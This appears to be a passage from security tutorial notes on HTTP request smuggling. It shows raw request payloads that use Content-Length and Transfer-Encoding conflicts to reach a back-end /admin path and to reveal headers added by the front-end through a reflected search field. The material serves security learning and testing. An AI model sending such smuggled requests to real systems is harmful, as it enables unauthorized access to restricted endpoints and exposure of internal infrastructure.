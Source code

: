 ##### Special cases
**The Host header cannot appear twice**

This happens, because the second request appends it's headers to the smuggled ones, which usually states a Host header already. The solution is to have the header in the body instead, so they won't be considered as headers at all.
```
POST ...
Host: ...
Transfer-Encoding: chunked
Content-Length: 47

0

GET /admin HTTP/1.1
Host: localhost

x=

```

## Front-End Request Rewriting
It is significant to know if any rewriting of the request takes place at the front-end, as the back-end might not handle the smuggled request correctly if there is something amiss. The method to reveal any information that is added by the front-end is to perform a POST request which reflect the user input in the response in some way. This field is then used to show what the front-end appended to the request.

```
POST / HTTP/1.1
Host: VICTIM-HOST
Content-Length: 130
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: VICTIM-HOST
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
```

The front-end code will then be visible in the search term, such as:
```
...
search=POST / HTTP/1.1
Host: VICTIM-HOST
X-Frwd-To: 172.10.10.10
...
```
revealing a custom header in this case. The attack can then be launched as usual, using the correct headers.
